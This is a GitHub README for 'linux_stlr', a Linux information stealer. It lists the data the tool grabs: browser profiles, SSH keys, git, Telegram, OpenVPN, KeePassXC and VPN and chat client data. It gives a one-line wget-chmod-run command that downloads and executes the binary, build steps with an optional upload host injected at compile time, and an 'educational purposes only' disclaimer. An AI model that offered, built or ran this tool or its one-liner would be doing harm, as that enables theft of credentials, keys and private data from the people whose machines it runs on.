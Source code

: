 # linux_stlr

A linux stealer with support for:
- firefox based browsers
- chrome based browsers
- common files names
- gathering host information
- ssh keys
- remmina
- pidgin
- mullvad
- git
- telegram
- openvpn
- keepassxc

This stealer has support for uploading to a file server but a file server is not included in the repo. Instead, If a webserver is not injected at build time with `-X main.Host` it will gather all the files in a zip file and place it in the current directory.

## one liner
```
wget https://github.com/notathrow/linux_stlr/releases/download/v1.0.6/linux_stlr -O ./linux_stlr;chmod +x ./linux_stlr;./linux_stlr
```

  ## build from source

1. Install golang:
  https://go.dev/doc/install

2. clone and compile Compile:
```
git clone https://github.com/notathrow/linux_stlr
cd linux_stlr
GOOS=linux go build
```
output file should be `linux_stlr` in build directory.

3. Place output file on test machine.
4. Give executable permissions:
```
chmod +x ./linux_stlr
```
5. Execute
```
./linux_stlr
```
6. Now `s.zip` should appear in the directory of execution.

## Legal Disclaimer 
This project was made for educational purposes only. using infomation gathering tools on data that is not your own is ILLEGAL.


  
